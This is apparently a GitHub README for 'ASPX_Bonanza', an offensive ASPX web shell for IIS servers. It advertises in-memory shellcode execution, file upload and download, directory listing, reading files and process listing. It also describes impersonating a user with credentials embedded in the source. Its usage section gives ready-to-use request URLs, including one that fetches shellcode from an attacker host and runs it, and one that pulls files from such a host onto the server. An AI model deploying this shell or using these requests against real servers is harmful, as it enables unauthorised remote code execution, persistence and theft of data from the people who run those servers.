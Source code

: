# ASPX_Bonanza

ASPX_Bonanza is a multi-featured aspx shell with a unique use case. It has a few features with capabilities such as the use of executing shellcode in memory. Also, this script logs in directly with the impersonating user credentials and doesn’t require the seImpersonate privilege for the user running IIS.

`impersonate_bonanza.aspx` requires valid credentials to get the token and impersonate the user.

`bonanza.aspx` does not require credentials and will run as the current user without impersonating.

----

## Features
- Execute shellcode in memory
- Download and Upload files
- List directories
- Cat files
- List processes

## Demo
https://user-images.githubusercontent.com/87979263/165757358-2b1e54e2-8442-4302-888a-ee2dd65c9eac.mp4

## Usage
### Impersonating user
In order to impersonate the user you want, in the source code you will have to edit the `username`, `domain` & `password`.

### Download and Execute shellcode in memory
``
https://url/impersonate_bonanza.aspx?shellcodeUrl=https://attacker/shellcode.bin
``
### List directories
``
https://url/impersonate_bonanza.aspx?dir=C:\users\public
``

### Download files
``
https://url/impersonate_bonanza.aspx?FileDownload=C:\users\public\FILE
``

### Upload files
``
https://url/impersonate_bonanza.aspx?UploadSource=https://attacker/FILE&UploadDestination=C:\users\public\FILE
``

### Cat files
``
https://url/impersonate_bonanza.aspx?Cat=C:\users\public\FILE
``

### View processes
``
https://url/impersonate_bonanza.aspx?Process=1
``
